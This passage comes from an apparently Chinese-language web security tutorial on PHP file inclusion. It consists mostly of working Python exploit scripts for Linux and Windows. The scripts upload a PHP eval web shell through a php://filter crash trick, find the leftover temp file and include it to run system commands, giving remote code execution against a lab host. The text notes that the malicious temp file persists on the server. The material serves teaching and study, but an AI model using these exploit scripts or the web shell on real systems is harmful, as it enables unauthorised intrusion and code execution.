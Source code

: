 ```

print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"

url3='http://192.168.68.119/index.php?file=/tmp/'+data
data = {
'Qftm':"system('whoami');"
}
r =  requests.post(url=url3,data=data)
print r.content
```

<a class="reference-link" name="%E7%BC%96%E5%86%99%20Windows%20Exp"></a>**编写 Windows Exp**

windows网络攻击环境下的脚本编写

```
#python version 2.7

import requests
from io import BytesIO
import re

files = {
  'file': BytesIO('&lt;?php eval($_REQUEST[Qftm]);')
}
url1 = 'http://192.168.68.119/web/fi/index.php?file=php://filter/string.strip_tags/resource=index.php'
r = requests.post(url=url1, files=files, allow_redirects=False)

url2 = 'http://192.168.68.119/web/fi/dir.php?dir=C:/Windows/'
r = requests.get(url2)
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content).group(0)

print "++++++++++++++++++++++"
print data
print "++++++++++++++++++++++"

url3='http://192.168.68.119/web/fi/index.php?file=C:/Windows/'+data+'.tmp'
data = {
'Qftm':"system('whoami');"
}
r =  requests.post(url=url3,data=data)
print r.content
```

<a class="reference-link" name="%E7%B3%BB%E7%BB%9FEXP%E5%88%A9%E7%94%A8"></a>**系统EXP利用**

针对不同的系统环境运行脚本就可以RCE拿到任意代码执行

[![](./img/201136/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013499c43603f5729c.png)

然后查看服务器上恶意临时文件，确实存在未被删除！！
